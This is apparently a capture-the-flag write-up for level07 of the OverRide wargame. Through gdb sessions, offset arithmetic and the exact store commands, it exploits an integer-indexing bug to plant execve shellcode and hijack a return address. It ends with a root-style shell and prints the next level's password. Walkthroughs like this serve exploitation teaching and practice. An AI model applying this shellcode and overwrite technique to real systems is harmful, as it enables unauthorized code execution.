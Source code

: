    level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 132
   Index: 4
   Completed store command successfully
   Input command: read
   Index: 4
   Number at data[4] is 132
   Completed read command successfully
   Input command: read
   Index: 1
   Number at data[1] is 0
   Completed read command successfully
   Input command: read
   Index: 9999999999999999999999999999999999
   Number at data[4294967295] is 0
   Completed read command successfully
   Input command: store
   Number: 999999999999999999999999999999999
   Index: 2
   Completed store command successfully
   Input command: read
   Index: 2
   Number at data[2] is 4294967295
   Completed read command successfully
   Input command: quit

***

   level07@OverRide:~$ gdb level07
   Non-debugging symbols:
   0x0804842c  _init
   0x08048470  printf
   0x08048470  printf@plt
   0x08048480  fflush
   0x08048480  fflush@plt
   0x08048490  getchar
   0x08048490  getchar@plt
   0x080484a0  fgets
   0x080484a0  fgets@plt
   0x080484b0  __stack_chk_fail
   0x080484b0  __stack_chk_fail@plt
   0x080484c0  puts
   0x080484c0  puts@plt
   0x080484d0  __gmon_start__
   0x080484d0  __gmon_start__@plt
   0x080484e0  __libc_start_main
   0x080484e0  __libc_start_main@plt
   0x080484f0  memset
   0x080484f0  memset@plt
   0x08048500  __isoc99_scanf
   0x08048500  __isoc99_scanf@plt
   0x08048510  _start
   0x08048540  __do_global_dtors_aux
   0x080485a0  frame_dummy
   0x080485c4  clear_stdin
   0x080485e7  get_unum
   0x0804861f  prog_timeout
   0x08048630  store_number
   0x080486d7  read_number
   0x08048723  main
   0x08048a00  __libc_csu_init
   0x08048a70  __libc_csu_fini
   0x08048a72  __i686.get_pc_thunk.bx
   0x08048a80  __do_global_ctors_aux
   0x08048aac  _fini
   (gdb)

***

With this information as well as analysis of assembler dump of functions we can say that:
 
 * All numbers are read with scanf as a uint into data array. Therefore index can be used to move on stack beyond 100 uints and rewrite the return address of main function 

 * At the start of the program all arguments and env variables are deleted. This prevents us from storing shellcode in an env variable as we did before 

* All 3rd indeces are forbidden which is troublesome for writing anything consecutive into the array. But this can be bypassed with uint overflow as pointer arithmetic is used for accessing the array

So the initial plan is to store shellcode in the data array and overwrite eip to jump to our shellcode

For this let's get eip and array addresses on stack:

***

   (gdb) b main
   Breakpoint 1 at 0x8048729
   (gdb) r
   Starting program: /home/users/level07/level07

   Breakpoint 1, 0x08048729 in main ()
   (gdb) info frame
   Stack level 0, frame at 0xffffd710:
   eip = 0x8048729 in main; saved eip 0xf7e45513
   Arglist at 0xffffd708, args:
   Locals at 0xffffd708, Previous frame's sp is 0xffffd710
   Saved registers:
   ebp at 0xffffd708, eip at 0xffffd70c   # eip at 0xffffd70c -  address eip is saved at = main return address

  ***

   # Let's find where array is located

   (gdb) b read_number
   Breakpoint 1 at 0x80486dd
   (gdb) r
   Starting program: /home/users/level07/level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: read

   Breakpoint 1, 0x080486dd in read_number ()
   (gdb) x $ebp+0x8              # at this point location of data array is loaded on stack in read_number function
   0xffffd520:     0xffffd544    # 0xffffd544 - array address (altered by gdb with env variables); 0xffffd520 - its place on stack

***

   (gdb) p 0xffffd70c - 0xffffd544     # offset in main of saved return address from the array
   $1 = 456
   (gdb) p 456 / 4                     # divide by step in the array (uint is 4 bytes)
   $2 = 114                            # index of eip in data array
   
   (gdb) p 0xffffd544 - 0xffffd520     # offset between the array and its address pushed on stack 
   $4 = 36

***

Rip Index: 114 % 3 = 0 -> This index is forbidden but we know how to solve this

Runtime array address index: -36 / 4 = -9

To put shellcode into the array we need to translate it into uints (each 4 bytes long):
Shellcode for `execve("/bin/sh")` from [here](https://shell-storm.org/shellcode/files/shellcode-575.html): "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

hex      | \x6a\x0b\x58\x99  | \x52\x68\x2f\x2f  | \x73\x68\x68\x2f  | \x62\x69\x6e\x89  | \xe3\x31\xc9\xcd    | /x80
4bytes   | 0x99580b6a        | 0x2f2f6852        | 0x2f686873        | 0x896e6962        | 0xcdc931e3          | 0x80
uint     | 2572684138        | 791636050         | 795371635         | 2305714530        | 3452514787          | 128

To put shellcode at the beginning indeces of the array (0-5) we need to get around forbidden ones (0, 3).
For this we use uint overflow:

2**(32) overflows to 0: 
(2**(32) / 4) % 3 = 1 

- Index 0: (2**(32)) / 4 = 1073741824
- Index 3: (2**(32) + (3 * 4)) / 4 = 1073741827
 
To store runtime array address at eip we also has to use this trick:

- Index 114: (2^(32) + (114 * 4)) / 4 = 1073741938

***

   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 2572684138
   Index: 1073741824
   Completed store command successfully
   Input command: store
   Number: 791636050
   Index: 1
   Completed store command successfully
   Input command: store
   Number: 795371635
   Index: 2
   Completed store command successfully
   Input command: store
   Number: 2305714530
   Index: 1073741827
   Completed store command successfully
   Input command: store
   Number: 3452514787
   Index: 4
   Completed store command successfully
   Input command: store
   Number: 128
   Index: 5
   Completed store command successfully
   Input command: read
   Index: -9
   Number at data[4294967287] is 4294956388
   Completed read command successfully
   Input command: store
   Number: 4294956388
   Index: 1073741938
   Completed store command successfully
   Input command: quit
   $ whoami
   level08
   $ cat /home/users/level08/.pass
   7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC